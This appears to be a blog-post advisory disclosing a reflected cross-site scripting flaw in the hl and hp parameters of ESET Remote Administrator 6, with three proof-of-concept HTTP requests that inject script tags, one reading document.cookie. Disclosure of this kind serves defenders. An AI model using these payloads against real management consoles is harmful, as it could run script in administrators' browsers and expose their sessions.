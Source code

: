 ```yaml
---
layout: post
title:  "Cross-Site Scripting (XSS) in ESET Remote Administrator"
date:   2019-01-21 03:43:45 +0700
categories: [cves]
---
```


Vendor: ESET, LLC, d/b/a ESET North America
Product: ESET Remote Administrator
Version affected: 6

#### Product description:
ESET Remote Administrator allows to oversee the entire network, including workstations, servers and smartphones from a single point. It can be installed on Windows as well as Linux servers and also comes as a Virtual Appliance. It handles
communication with agents, and collects and stores application data in the database.

#### Cross-Site Scripting, Reflected
* CVE: CVE-2019-xxxx
* CWE: CWE-79


A Cross Site Scripting vulnerability exists in ESET Remote Administrator hl, hp parameters. It is possible to inject arbitrary JavaScript into requests which are ultimately executed by the user browser.


## Proof of Concept 1
{% highlight ruby %}
GET /era/webconsole/getHelp?hl=en-US&hp=fs_login_screen.htm"/><script>alert(document.cookie)</script> HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

## Proof of Concept 2
{% highlight ruby %}
GET /era/webconsole/getHelp?hl=en-US"/><script>alert('xss')</script>&hp=fs_login_screen.htm HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

## Proof of Concept 3
{% highlight ruby %}
GET /era/webconsole/getHelp?hl="><script>alert('xss')</script> HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

#### References:
1. OWASP - https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://www.eset.com/au/business/remote-management/remote-administrator/
3. Download the latest trial version - https://support.eset.com/kb6114/?locale=en_US&viewlocale=en_US
